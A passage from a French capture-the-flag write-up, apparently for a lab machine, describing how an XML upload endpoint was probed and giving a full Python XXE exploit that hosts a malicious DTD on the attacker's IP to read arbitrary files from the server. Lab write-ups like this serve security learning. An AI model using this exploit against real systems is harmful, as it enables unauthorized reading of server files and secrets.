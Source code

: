 On se rend assez vite compte que si on envoie du XML dégueulasse l'erreur 500 nous attend au tournant. Je n'entrerais pas dans les détails mais globalement je me suis servi de l’utilitaire [xmllint](http://xmlsoft.org/xmllint.html) avec son option *--valid*.  

Quand on parvient finalement à générer un XML valide on remarque qu'en plus du message de réussite de l'upload on a un nom d’utilisateur Unix mentionné :  

```plain
URL for later reference: /uploads/foo.xml
File path: /home/roosa/deploy/src
```

Au final j'ai écrit le code d'exploitation suivant permettant de récupérer le contenu d'un fichier :  

```python
import sys

import requests
from requests.exceptions import RequestException
from netifaces import ifaddresses

if len(sys.argv) < 2:
    print("Usage: python {} filename".format(sys.argv[0]))
    exit()

my_ip = ifaddresses("tun0")[2][0]["addr"]
filename = sys.argv[1]

xml = """<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE root SYSTEM "http://{}/valid.dtd">
<root>
<Author>&xxe;</Author>
<Subject></Subject>
<Content></Content>
</root>""".format(my_ip)

dtd = """<?xml version="1.0" encoding="UTF-8" ?>
<!ELEMENT root (Author, Subject, Content)>
<!ENTITY xxe SYSTEM "file://{}" >
<!ELEMENT Author (#PCDATA)>
<!ELEMENT Subject (#PCDATA)>
<!ELEMENT Content (#PCDATA)>""".format(filename)

with open("valid.dtd", "w") as fd:
    fd.write(dtd)

try:
    response = requests.post(
        "http://10.10.10.91:5000/upload",
        files=[
            ("file", ("foo.xml", xml, "application/xml"))
        ]
    )
except RequestException as exception:
    print("Error occurred:", exception)
else:
    text = response.text.split("Author: ", 1)[1].rsplit("Subject:", 1)[0].strip()
    print(text)
```

